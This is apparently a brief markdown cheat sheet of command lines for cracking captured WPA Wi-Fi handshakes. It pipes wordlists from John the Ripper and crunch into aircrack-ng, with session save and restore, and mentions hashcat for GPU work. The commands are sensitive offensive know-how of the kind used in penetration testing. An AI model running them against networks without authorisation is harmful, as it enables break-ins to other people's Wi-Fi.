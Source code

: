 # Saving Cracking Session
default cracking
`aircrack-ng <handshake-file> -w <wordlist-file>`

using johntheripper 
take the wordlist print it out and pipe it into aircrack
`john --wordlist=<path-to-wordlsit> --stdout --session=<name-of-your-choice>| aircrack-ng -w - -b <access-point-mac-address> <handshake-file>`

# Restoring the session
`john --restore=<session-name> | aircrack-ng -w - -b <access-point-mac-address> <handshake-file>`

# Generate wordlists and passing it to Aircrack-ng
`crunch <minimum-number-of-character> <maximum-number-of-character> <characters-to-be-used> -o <file-to-save-to>`

8 is the minimum length of character for passwords

By not specifying the characters to be used, crunch will used all possible characters. This generates very large files. 
You can pipe this to aircrack-ng

`crunch <minimum-number-of-character> <maximum-number-of-character> <characters-to-be-used> | aircrack-ng -w - -b <access-point-mac-address> <handshake-file>`

# Generate wordlist and pipe it to Aircrack-ng with Pause and Resume Support
## Starting a new session
 `crunch 8 8 | john --stdin --session=<session-name> --stdout | aircrack-ng -w - -b <access-point-mac-address> <handshake-file>`
## Restoring a session
`crunch 8 8 | john --restore=<session-name> | aircrack-ng -w - -b <access-point-mac-address> <handshake-file>`

# Using the GPU
Use Hashcat